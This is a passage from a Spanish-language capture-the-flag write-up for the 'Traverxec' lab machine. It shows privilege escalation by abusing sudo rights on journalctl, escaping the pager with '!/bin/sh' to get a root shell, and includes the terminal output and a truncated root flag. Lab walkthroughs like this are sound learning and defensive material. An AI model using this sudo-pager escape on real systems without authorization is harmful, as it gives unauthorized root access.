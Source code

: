 El comando que puede ejecutar con privilegios es `journalctl` que en esencia, permite visualizar los archivos del log del sistema. Revisando en la página [GTFOBins](https://gtfobins.github.io/) que contiene una lista de binarios en Unix que pueden ser explotados,  buscamos  `journalctl` y la función `sudo` y ejecutamos el comando `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` y posteriormente escribimos `!/bin/sh` en la consola que se crea y ya obtendremos la flag de root.

```bash
david@traverxec:~$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Wed 2020-06-03 00:25:20 EDT, end at Wed 2020-06-03 00:28:39 EDT. --
Jun 03 00:25:24 traverxec systemd[1]: Starting nostromo nhttpd server...
Jun 03 00:25:24 traverxec systemd[1]: nostromo.service: Can't open PID file /var/nostromo/logs/nhttpd.pid (yet?) after start: No such f
Jun 03 00:25:24 traverxec nhttpd[457]: started
Jun 03 00:25:25 traverxec nhttpd[457]: max. file descriptors = 1040 (cur) / 1040 (max)
Jun 03 00:25:25 traverxec systemd[1]: Started nostromo nhttpd server.
~
~
~
!/bin/sh
# whoami
root
# cat /root/root.txt
9aa36a........................
```


